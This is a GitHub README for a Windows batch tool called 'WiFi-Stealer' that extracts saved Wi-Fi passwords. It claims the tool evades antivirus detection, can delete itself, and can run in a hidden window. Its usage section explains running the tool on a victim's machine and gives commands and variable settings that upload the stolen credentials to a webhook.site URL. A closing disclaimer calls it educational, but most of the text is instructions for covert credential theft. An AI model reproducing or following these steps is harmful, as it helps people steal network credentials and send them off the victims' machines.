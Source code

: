 ## About
This is a simple batch program to grab Wi-Fi credentials from a local Windows machine.


## Features
- It does not need to be compiled.
- Runs on any windows machine (7/8.1/10/11).
- Undetectable by the default Windows Security AV (didn't test other AVs, but it should be also undetectable by them).
- Exfiltrated cedentials can be sent to a [webhook](https://webhook.site/) or saved locally to a txt file.
- The program has the ability to self-delete.
- To avoid problems caused by specials characters, the credentials are also stored in a hexadecimal value (in the form `name:password`).

**Note**: When using [Webhook.site](https://webhook.site/), please take the expiration of the URLs into consideration.


## Usage
There is a wide variety of ways to run the program. You can choose to use it in whatever way suits your needs. But usually, you either run this program on your machine or on a target machine. Here are some examples on how you can use the program:

### Running the program on a local machine (yours)
To run the script and save the credentials in the default `txt` file (this code line sets the default text file: `set "credsfile=creds.txt"`.), simply type:

```batch
> WiFi-Stealer.bat
```

Or you can specify a name for the `txt` file (or any file type), type this:

```batch
> WiFi-Stealer.bat --output "wifi-credentials.txt"
```

### Running the program on the target machine
Usually when running the program of a remote machine (program downloaded and executed by the victim) or a machine that you gained phisical access to, you need a way to retrieve the credentials. This is how you do it:

- **Specify the webhook as an argument**: Simply run the program and pass the URL of your webhook as an argument:

```batch
> WiFi-Stealer.bat --upload "https://webhook.site/#!/87258b74-93c5-4792-8175-df08c3ffee20"
```

- **Store the webhook inside the program**: If you can't run the program from the command prompt or to avoid typing the url, ensure to save your webhook's URL in the variable `webhook` within the program. Another important step is to change the value of the `upload` variable from `0` to `1`. Once the program is executed, you will receive the credentials.

```batch
set upload=0

set "webhook=https://webhook.site/#!/87258b74-93c5-4792-8175-df08c3ffee20"
```

- Another cool feature is to make the program delete itself when it's done. To do this, you can simply change `selfdelete` varibale inside the program from `0` to `1`.

- To run the program in stealth (hidden) mode, remove the `::` form this line in the program:

```batch
::@powershell -window Hidden -command ""   &:: Uncomment if you want to run the program in hidden mode
```


## Screenshots

![](https://raw.githubusercontent.com/Psi505/WiFi-Stealer/main/Screenshot_1.png)

![](https://raw.githubusercontent.com/Psi505/WiFi-Stealer/main/Screenshot_2.png)


## ⚠️ DISCLAIMER
This project can only be used for educational purposes. Using this software against target systems without prior permission is illegal, and any damages from misuse of this software will not be the responsibility of the author.